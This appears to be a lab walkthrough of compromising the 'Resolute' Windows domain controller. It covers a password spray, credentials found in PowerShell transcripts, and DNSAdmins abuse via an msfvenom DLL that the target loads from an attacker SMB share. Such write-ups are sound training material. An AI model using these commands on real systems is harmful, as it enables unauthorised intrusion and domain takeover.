 ### Nmap
As usual we start with regular nmap with `-sC` for default scripts and `-sV` to enumerate versions and making sure to include all ports with `-p-`:
```
PORT      STATE  SERVICE      VERSION
53/tcp    open   domain       Simple DNS Plus
88/tcp    open   kerberos-sec Microsoft Windows Kerberos (server time: 2022-04-22 17:53:31Z)
135/tcp   open   msrpc        Microsoft Windows RPC
139/tcp   open   netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open   ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp   open   microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
464/tcp   open   kpasswd5?
593/tcp   open   ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open   tcpwrapped
3268/tcp  open   ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
3269/tcp  open   tcpwrapped
5985/tcp  open   http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open   mc-nmf       .NET Message Framing
47001/tcp open   http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open   msrpc        Microsoft Windows RPC
49665/tcp open   msrpc        Microsoft Windows RPC
49666/tcp open   msrpc        Microsoft Windows RPC
49667/tcp open   msrpc        Microsoft Windows RPC
49671/tcp open   msrpc        Microsoft Windows RPC
49674/tcp open   ncacn_http   Microsoft Windows RPC over HTTP 1.0
49675/tcp open   msrpc        Microsoft Windows RPC
49680/tcp open   msrpc        Microsoft Windows RPC
49712/tcp open   msrpc        Microsoft Windows RPC
50231/tcp closed unknown
50274/tcp open   unknown
Service Info: Host: RESOLUTE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h27m00s, deviation: 4h02m29s, median: 6m59s
| smb2-time: 
|   date: 2022-04-22T17:54:26
|_  start_date: 2022-04-22T17:39:18
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Resolute
|   NetBIOS computer name: RESOLUTE\x00
|   Domain name: megabank.local
|   Forest name: megabank.local
|   FQDN: Resolute.megabank.local
|_  System time: 2022-04-22T10:54:23-07:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
```

### Domain Controller Detection, Host Information & Finding a remote administration port
*Looking at the results,* we find a combination of ports that indicate a domain controller:
1. DNS on 53
2. Kerberos on 88
3. LDAP on 389 & LDAPS on 636
4. SMB on 445

and we also find *WinRM* on 5985 which would be handy in getting a **shell** *if we manage to get a user that's in* **Windows Remote Management** *group.*

We also find out from the **nmap script** that the operating system is **Windows Server 2016 Standard 14393** and that the domain name is **megabank.local** and that the computer name is **Resolute.**

### Setting up our DNS
we add this computer to our `/etc/resolv.conf` to make usage of tools like `impacket` easier.

![etc-resolv-conf](etc-resolv-conf.jpg)

### SMB share enumeration as Null/Anonymous
enumerating shares using multiple options doesn't give us any results:

![smb-enum](smb-enum.jpg)

### Enumerating RPC with `rpcclient`
*using* `rpcclient` *with a blank user* `-U ''` *and the* `-N` *flag for no password*, we get a bunch of users with `enumdomusers`

![enum-dom-users](enum-dom-users.jpg)

we get more details using `querydispinfo2`

![querydispinfo2](querydispinfo2.jpg)

*looking at the description for the* `marko` *user,* we see written: `Account created. Password set to Welcome123!`. We immediately try to login as that user but it doesn't work :/

![marko-failed](marko-failed.jpg)

## Who else is using that password?
*having got an idea of a possible password,* a good logical step is to try that against the entire domain. we put what we got from `rpcclient > enumdomusers` into a text file `users.txt` and use `crackmapexec` to do a **Password Spray.**

![got-melanie](got-melanie.jpg)

**We're lucky! :D** the `melanie` user authenticated.

## Options available after getting a valid AD user

*Having a valid AD user,* we got a couple of things to check:
1. Code execution with **WinRM**: Check

![melanie-got-winrm](melanie-got-winrm.jpg)

2. SMB Shares: Nothing there but we can enumerate GPP

![melanie-smb-access](melanie-smb-access.jpg)

3. GPP Enumeration since it's a domain controller

![GPP-check](GPP-check.jpg)

4. ASREPRoast (could be done without creds but we moved down the password spray path first). No results

![asreproast](asreproast.jpg)

5. Kerberoasting didn't get results either

![Kerberoast](Kerberoast.jpg)

6. BloodHound. *With remote code execution using* **WinRM**, we decide to run `SharpHound.exe` from the shell

![sharphound-collection](sharphound-collection.jpg)

### Browsing Bloodhound output
*After browsing* `bloodhound` *for a while*, we find that we would have a clear path to Domain Admin if we manage to get the `ryan` user. This is because he is a member of the DNS Admins group which can be abused to elevate our privileges. He's also a member of **Remote Management Users** and that means we can execute code using **WinRM** too.

![ryan-should-takeover](ryan-should-takeover.jpg)

But we don't have him as of the moment. So we look around the file system to see if we can find something to help us.


### Finding creds in a hidden folder
*Looking around the* `C:` *drive*, we find the creds of the `ryan` user in `c:\PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt`

![transcript-found](transcript-found.jpg)

![ryan-creds-found](ryan-creds-found.jpg)

The creds turn out to be valid and we get a shell as the `ryan` user

![shell-as-ryan](shell-as-ryan.jpg)

### DNSAdmins abuse
*Using* **Google**, we come across an excellent article from **Ired.team** website (https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise) fully explaining the a way we can exploit our membership in the **DNSAdmins** group to own the domain.

We should first compile a dll using `msfvenom` and configure **DNS** to load that dll *remotely* from our **SMB share**.

we're going to use a payload that doesn't cause the **DNS** service to hang. It should be something simple like changing the the domain administrator's password

`msfvenom -p windows/x64/exec cmd='net user administrator $$Y0uJustG0tOwn3d$$ /domain' -f dll > owned.dll`

![killer-dll](killer-dll.jpg)

we then host it using **Impacket's** `smbserver.py`

![smb-server-up](smb-server-up.jpg)

*after that,* we're going to reconfigure the **DNS** service using `dnscmd` with the `/config` flag along with `/serverlevelplugindll` pointing to our **SMB** share named `share`. It should be as below:

`dnscmd /config /serverlevelplugindll \\10.10.16.3\share\adduser.dll`

we can then trigger the execution by stopping the **DNS** service and restarting it.

```
sc.exe stop dns
sc.exe start dns
```

![dns-admins-abuse](dns-admins-abuse.jpg)

we get a connect back on our **SMB** share and code execution occures giving us the **Domain Admin** in our hands

![got-domain-admin](got-domain-admin.jpg)

### Notes and pitfalls
using the `sc` command without the `.exe` at the end didn't work. This took me a while to figure out.

![troubleshooting-sc](troubleshooting-sc.jpg)

Also, copying the `msfvenom` generated dll didn't work because the antivirus kept eating it up xD

![evil-dll-eaten](evil-dll-eaten.jpg)